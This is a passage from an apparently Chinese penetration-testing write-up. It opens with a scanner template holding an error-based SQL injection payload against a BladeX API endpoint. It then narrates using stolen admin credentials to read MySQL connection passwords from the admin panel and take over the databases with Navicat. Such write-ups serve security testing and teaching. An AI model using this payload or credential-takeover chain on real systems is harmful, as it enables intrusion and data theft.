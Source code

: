 ```
        GET /api/blade-system/role/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Sec-Fetch-Dest: document
        Sec-Fetch-Mode: navigate
        Sec-Fetch-Site: none
        Sec-Fetch-User: ?1
        Te: trailers
        Connection: close
    matchers:
      - type: word
        part: body
        words:
          - 'XPATH syntax error:'
```  
### 五、通过Navicat拿下MySQL数据库  
  
上面不是通过未授权，然后拿下了admin超级管理员的账户密码嘛，那么这不进去利用一波，那多可惜啊，废话不多说直接上强度。  
  
这里直接使用刚才拿到的账户密码进行一个登录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpG6HEufDXzWbdpoRT2YygMjA0IN4tRiblhEDjaXo8NYs77gEbt31UQicOYRJcNPpP7gvxiatXQGwZOg/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
然后也是跟上面一样，多点点功能页面，看看超级管理员比普通用户的能够看到的信息多了哪些部分  
  
然后在数据库管理里面看到了mysql、oracle、sqlserver等数据库服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpG6HEufDXzWbdpoRT2YygMysslR21mic7KgtglWChZEHtgr4aI99bDWjDqrGaEsx7Scericicm4X8XA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
然后点击查看，直接看到了连接MySQL数据库的IP以及账户密码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpG6HEufDXzWbdpoRT2YygMjkCdLRI7ha3iaqxbqw06lTC29CcKTh6GiaZh4xcPQqtlia3nJQbDW1kQQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
有了IP和MySQL数据库的账户密码了，那么我们就可以使用Navicat工具进行连接，看看能不能连接成功，然后拿下改数据库  
  
可以看到，直接测试连接成功了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpG6HEufDXzWbdpoRT2YygMXcC57ib20khxrRZOjKPCIn7zGDaBVssJ4q2Mk4xeg3tpzPZ19Exbmiag/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
该站点的所以数据库用户的账户密码以后别的信息全部都接管成功了  
  